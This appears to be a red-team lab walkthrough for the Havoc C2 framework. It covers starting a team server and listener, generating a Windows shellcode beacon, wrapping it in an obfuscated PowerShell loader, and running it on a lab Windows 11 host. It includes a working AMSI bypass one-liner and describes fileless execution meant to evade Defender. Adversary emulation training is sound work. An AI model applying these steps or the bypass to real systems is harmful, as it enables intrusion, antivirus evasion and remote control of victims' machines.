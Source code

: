 # 2 - Initial Compromise and Weaponization

## C2 Communication 
Command and Control (C2) is the backbone of any offensive security operation, enabling persistent communication between an operator and compromised hosts. 
Once initial access is established, a C2 framework allows for payload delivery, lateral movement, privilege escalation, and stealthy persistence.

## Havoc C2 Framework

Havoc's customizable implants can be deployed to establish secure, encrypted communication channels, leveraging in-memory execution and BOF (Beacon Object File) extensions for modular and evasive payload delivery.

- Open-source, modular C2 for adversary emulation
- Customizable implants with BOF (Beacon Object File) support
- EDR evasion techniques built-in for stealthy operations
- Integrates with tools like Cobalt Strike, Mythic, and Sliver

> Please see the Havoc [Wiki](https://github.com/HavocFramework/Havoc/wiki) for complete documentation.

## Starting Havoc Team Server

To launch the Havoc Team Server, follow these steps:

1. Navigate to the Havoc directory:
```bash
cd /home/kali/Havoc
```
2. Start the Team Server:
```bash
./havoc server 10.10.X.200 --profile ./profiles/havoc.yaotl -v
```
![image](https://github.com/user-attachments/assets/61539124-3a77-40f3-9532-2a01ce92b2c4)

## Starting Havoc Client
To launch the Havoc client, follow these steps:

1. Open a new terminal and navigate to the Havoc directory:
```bash
cd /home/kali/Havoc
```
2. Start the client:
```bash
./havoc client
```
![image](https://github.com/user-attachments/assets/c46c8100-b101-4c3b-b19e-faf5746f3feb)

After launching the client, enter the following connection details:

- Alias: `[anything you like]`
- Host: `10.10.X.200`
- Port: `40056`
- User: `Neo`
- Password: `password1234`

## Listener Management

Once the Team Server is running, the next step is to configure a Listener
(the component that handles inbound and outbound Beacon communications)

A listener acts as the endpoint for compromised systems (Beacons), allowing them to communicate with the Havoc Team Server over standard HTTP/HTTPS channels using GET and POST requests. This setup enables secure, flexible C2 message exchange.

### Creating a Listener
1. Navigate to: View > Listeners
2. Click the ADD button at the bottom of the Listeners window.
![image](https://github.com/user-attachments/assets/b8be2d9e-eb5f-4ee5-8cbc-756619b76cf8)

3. Fill in the required fields:
![image](https://github.com/user-attachments/assets/40ab7727-9976-4d26-9c45-5db9ec205d1f)

Here, you provide the IP addresses and/or domain names that the Beacon payload will call back to. 
By default, it will auto-populate with the IP address of the Attacker Kali VM.

4. Click `Save` to activate the listener.

## Generating Payloads 
Once your listener is active, you can generate payloads that will connect back to it.  
These payloads can be used for different delivery methods depending on your engagement needs.  

We are going to create a raw Windows shellcode binary (beacon.bin) that initiates a connection to our configured listener:

### Creating a Beacon (beacon.bin)
1. Navigate to: Attacks > Payloads
![image](https://github.com/user-attachments/assets/b195ce9a-1931-4c98-9003-ec232bdcf281)

2. In the payload generation window:
- Listener: `https`
- Arch: `x64`
- Format: `Windows Shellcode`
- Sleep Jmp Gadget: `jmp rbx`
- Amsi/Etw Patch: `Hardware breakpoints`

3. Click Generate

Save the generated Windows Shellcode payload in the following folder:
```
/home/kali/Havoc/obfuscator/beacon.bin
```
The output file (beacon.bin) contains the raw shellcode ready for embedding into custom loaders, BOFs, or shellcode injection frameworks.

## Converting beacon.bin to a PowerShell Loader with a Python Obfuscator Script
We will deliver the raw (beacon.bin) shellcode in a flexible and memory-resident way, 

Using the Python Obfuscator Script `havoc_obfuscate_ps1.py`, we will wrap our binary payload in a PowerShell script that can:
- Decrypts the shellcode in-memory
- Allocates executable memory
- Executes via API calls (`VirtualAlloc`, `CreateThread`)

This enables fileless execution and evades simple static detection mechanisms.

### Steps to Generate the Powershell Loader
1. Ensure your "beacon.bin" is generated and located in the working directory:
```
/home/kali/Havoc/obfuscator/beacon.bin
```
2. Run the Python script to encrypt and embed the shellcode into a PowerShell loader:
![image](https://github.com/user-attachments/assets/0f1140c0-b849-4535-b30c-6de856fbc4d7)

```bash
python3 havoc_obfuscate_ps1.py beacon.bin
```
3. The script outputs `beacon_loader_obfuscated.ps1`, which is now ready for use in initial access.
![image](https://github.com/user-attachments/assets/ffa81919-ced3-4833-a1e7-94e20236ced2)

   
## Initial Compromise — Manual Execution via PowerShell ISE

Now, we will manually execute our `beacon_loader_obfuscated.ps1` loader on the target system while bypassing Windows Defender mechanisms like AMSI (Antimalware Scan Interface).

This gives us more control over execution and helps ensure in-memory delivery of the Windows Shellcode `beacon.bin`.

### Step-by-Step
1. Navigate back to the RDP Session (FreeRDP) with the Windows 11 Host.
2. Open PowerShell_ISE.
3. On the Kali Machine, locate and open the file AMSI.txt:
```
/home/kali/Havoc/obfuscator/AMSI.txt
```
3. Do the same for our generated `beacon_loader_obfuscated.ps1` Powershell loader:

4. Inject AMSI Bypass (line by line):
```powershell
$a=([ref].Assembly.GetTypes() | ? { $_.Name -like '*Amsi*' }).DeclaredFields | ?  { $_.Name -eq 'amsiInitFailed' }
$a.SetValue([void]0, $true)
```
Paste each line of your AMSI bypass code individually into the PowerShell_ISE command pane and execute per line.

5. Copy, paste and execute the loader:
![image](https://github.com/user-attachments/assets/bbb273e7-155a-4e37-b97e-1d7abb5e5fe2)

Once AMSI is bypassed, paste the full contents of `beacon_loader_obfuscated.ps1` into the PowerShell_ISE command pane and hit Enter.

This will:
- Decrypt the shellcode
- Allocate RWX memory
- Launch a new thread with the beacon

## The Havoc beacon is deployed!
After successfully executing the payload on the target machine:
1. Return to your Kali (operator) machine.
2. Re-open the Havoc Client GUI:
3. You should now see a new active Beacon listed in the upper-left corner.

If it appears healthy, the communication with the target is established.

### Interacting with the Beacon
1. Double-click on the Beacon to open a new tab labelled with its UID.
2. In the command input at the bottom of the tab, type:
```
help
```
This will list all available post-exploitation commands and modules.
![image](https://github.com/user-attachments/assets/8904aac7-6829-4829-8351-19c87ba3a693)

